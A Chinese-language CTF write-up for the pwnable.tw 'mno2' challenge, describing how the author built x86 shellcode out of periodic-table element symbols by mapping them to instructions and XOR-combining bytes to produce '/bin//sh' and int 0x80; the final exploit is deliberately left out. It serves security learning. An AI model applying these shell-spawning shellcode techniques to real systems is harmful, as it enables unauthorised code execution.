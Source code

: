 ```yaml
---
title: mno2
date: 2019-02-23 11:01:54
tags:
layout: post
---
```

pwnable.tw mno2
<!--more-->
不附exp...


# mno2
...shellcode被玩坏了...
这题是用数字和元素周期表的内容写shellcode...
做的时候感觉有时候判定有问题...最好不要拿数字去充填...有时候会出错...
做完之后再也不想碰这题...
```python
ele=['\x48','\x48\x65','\x4C\x69','\x42\x65','\x42','\x43','\x4E','\x4F','\x46','\x4E\x65','\x4E\x61','\x4D\x67','\x41\x6C','\x53\x69','\x50','\x53','\x43\x6C','\x41\x72','\x4B','\x43\x61','\x53\x63','\x54\x69','\x56','\x43\x72','\x4D\x6E','\x46\x65','\x43\x6F','\x4E\x69','\x43\x75','\x5A\x6E','\x47\x61','\x47\x65','\x41\x73','\x53\x65','\x42\x72','\x4B\x72','\x52\x62','\x53\x72','\x59','\x5A\x72','\x4E\x62','\x4D\x6F','\x54\x63','\x52\x75','\x52\x68','\x50\x64','\x41\x67','\x43\x64','\x49\x6E','\x53\x6E','\x53\x62','\x54\x65','\x49','\x58\x65','\x43\x73','\x42\x61','\x4C\x61','\x43\x65','\x50\x72','\x4E\x64','\x50\x6D','\x53\x6D','\x45\x75','\x47\x64','\x54\x62','\x44\x79','\x48\x6F','\x45\x72','\x54\x6D','\x59\x62','\x4C\x75','\x48\x66','\x54\x61','\x57','\x52\x65','\x4F\x73','\x49\x72','\x50\x74','\x41\x75','\x48\x67','\x54\x6C','\x50\x62','\x42\x69','\x50\x6F','\x41\x74','\x52\x6E','\x46\x72','\x52\x61','\x41\x63','\x54\x68','\x50\x61','\x55','\x4E\x70','\x50\x75','\x41\x6D','\x43\x6D','\x42\x6B','\x43\x66','\x45\x73','\x46\x6D','\x4D\x64','\x4E\x6F','\x4C\x72','\x52\x66','\x44\x62','\x53\x67','\x42\x68','\x48\x73','\x4D\x74','\x44\x73','\x52\x67','\x43\x6E','\x46\x6C','\x4C\x76']
ele+=['1','2','3','4','5','6','7','8','9','0']
```
# 思路
* 寻找可用的元素..
* 凑/bin/sh
* 凑int 0x80


我是一个一个...试过去...数字组合当时没有想到..做得好辛苦i
```python
'''
[H]      dec eax			0x47
[He]	   would not be used
[B]      inc edx			0x42
[C]      inc ebx			0x43
[N]      dec esi			0x4e
[O]      dec edi			0x4f
[F]      inc esi			0x46
[Ne]	   would not be used
[P]      push eax			0x50			
[S]      push ebx			0x53
[K]      dec ebx			0x4a
[Fe]	   would not be used
[I]      dec ecx			0x48
[U]      push ebp			0x55
[Y]      pop ecx			0x59
[Ba]     inc edx;popa			0x4261
[V]      push esi			0x56
[W]      push edi			0x57
[Bhxxxx] inc edx;push bytes
[Phxxxx] push esp;push 4bytes

[XeFN]   pop eax;gs inc esi;dec esi
[PdFN]	 push eax;inc esi;dec esi
[GeFN]   inc edi;gs inc esi;dec esi
[TeFN]   push esp;gs inc esi;dec esi
[ReFN]   push edx;gs inc esi;dec esi
[Rfx]	 push edx;inc ?x;


[07]     xor BYTE PTR [edi],dh
[26]     xor dh,BYTE PTR [esi]
[30]     xor esi,DWORD PTR [eax]
[32]     xor esi,DWORD PTR [edx]
[38]     xor edi,DWORD PTR [eax]

['H', 'He', 'Be', 'B', 'C', 'N', 'O', 'F', 'Ne', 'P', 'S', 'K', 'V', 'Fe', 'Ge', 'Se', 'Y', 'Rh', 'Pd', 'Cd', 'Te', 'I', 'Xe', 'Ce', 'Nd', 'Gd', 'W', 'Re', 'Th', 'U', 'Md', 'Bh']
'''
```
# /bin/sh
如果我需要0x73的7我就需要n^n^7 or 6^3(6必须自己提供所以没办法1^2所以不行)只能 n^n^7
* 因为0x70是'p'所以只能由长度为2的元素的第二字节产生....发现还是有很多选择的
```
Ar,Cr,Cu,As,Br,Kr,Sr,Zr,Ru,Cs,Pr,Eu,Dy,Er,Lu,Os,Ir,Pt,Au,At,Fr,Np,Pu,Es,Lr,Hs,Mt,Ds,Lv
```
* 因为这二字节元素的第一字节要用来产生2f这就是突破点..和可以产生0x2f的大写字母集合交叉一下得到
```
Pr,Ru,Pt,Pu,Lv,Lu,Lr,Np,Fr,Hs,Br,Dy,Cu,Ds,Cs,Sr,Kr,Os,Es,Mt,Ir,As,Ar,Au,,Eu,Cr,Zr,Er
```
减少一种可能也是减少好吧...当我没说
我们随便选一个试试..
例如Os吧..
在一下几个组合中O可以xor两次获得0x2f
```
 {'0', 'O', 'P'},
 {'3', 'O', 'S'},
 {'2', 'O', 'R'},
 {'5', 'O', 'U'},
 {'4', 'O', 'T'},
 {'7', 'O', 'W'},
 {'6', 'O', 'V'},
 {'9', 'O', 'Y'},
```
选一个试试看看
例如A:`?sOO`,B:`??00`,C:`??PP`
再来看看`h`-->0x68
.....需要用到小写字母所以C,B的?部分是2字节元素
例如A:`?sOO`,B:`?B00`,C:`aBPP`（我选了Ba,因为B单独是一个元素感觉应该会简单点...）
```python
In [323]: chr(0x59)
Out[323]: 'Y'

In [324]: chr(0x50)
Out[324]: 'P'
```
泪流满面..被yi和磷拯救了...
所以A:`PsOO`,B:`YB00`,C:`aBPP`...试试看
```python
In [325]: b='YB00'

In [326]: a='PsOO'

In [327]: c='aBPP'

In [328]: for x in range(4):
    print(chr(ord(a[x])^ord(b[x])^ord(c[x])))
   .....:     
h
s
/
/
#ESI  0x68732f2f ('//sh')
```
然后去弄/bin
发现0x69,0x62,0x6e都不能由一字节长度的元素组成..直接拿B开头的元素来试
```python
Be
Br
Ba
Bi
Bk
Bh
```
一个字凑...
```
In [353]: hex(ord('i'))
Out[353]: '0x69'

In [354]: chr(0x57)
Out[354]: 'W'

In [355]: chr(0x50)
Out[355]: 'P'
```
A:`iB??`B:`W???`C:`P???`
第二字节如法炮制
`{'4', 'B', 'Y'}`
A:`iBI4`B:`WiBY`C:`PBiB`
....得到/bin/sh的我眼泪也掉下来..
```
─────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────
 EAX  0xff9b8530 ◂— 0x50426942 ('BiBP')
 EBX  0x0
 ECX  0x0
 EDX  0x804892e ◂— add    byte ptr [ebx + 0x65], al
 EDI  0x6e69622f ('/bin')
 ESI  0x68732f2f ('//sh')
 EBP  0xff9b8588 ◂— 0x0
 ESP  0xff9b8530 ◂— 0x50426942 ('BiBP')
 EIP  0x324f6ede ◂— push   esi /* 0x65545756; 'VWTeFNVVVVBa' */
```
坐到后面发现我们只能用popal来使得ebx--->/bin/sh
所以我研究了一下pop all的顺序
```python
EDI
ESI
EBP
?
EBX-->xxxx-->/bin/sh
EDX-->0
ECX-->0
EAX-->0xb
```
这个在弄完/bin/sh时压好最方便...//惨痛的教训


# int 0x80
这个也需要凑..
因为我们有
```python
[26]     xor dh,BYTE PTR [esi]
[07]     xor BYTE PTR [edi],dh
```
所以我们先set esi edi=0方法同第一次
```asm
push esi
dec eax
dec eax
dec eax
dec eax
xor esi,DWORD PTR [eax]
```
然后set esi edi 为我们可以控制的地方例如0x324f6f43...
然后我们利用`26`,`07`...
所以我们又开始凑
A:0x?? B:0x?? C:0x88
目标是A^B^C==0xcd和0x80
因为第二个字节受前一个字节的约束所以我们先弄第二个字节
## 0x80
0x80比较简单AB只要凑出8就可以了
我们可以随便选择像是
```python
In [452]: chr(0x43)
Out[452]: 'C'

In [453]: chr(0x4b)
Out[453]: 'K'

In [454]: hex(0x4b^0x43)
Out[454]: '0x8'
```
A:0x4b B:0x43 C:0xCa

## 0xcd
也就是我们要凑0x6
发现更简单...
随便选个S^U


# exp
```
--
```

做了2天...内牛满面.........
```python
In [527]: f**k
```
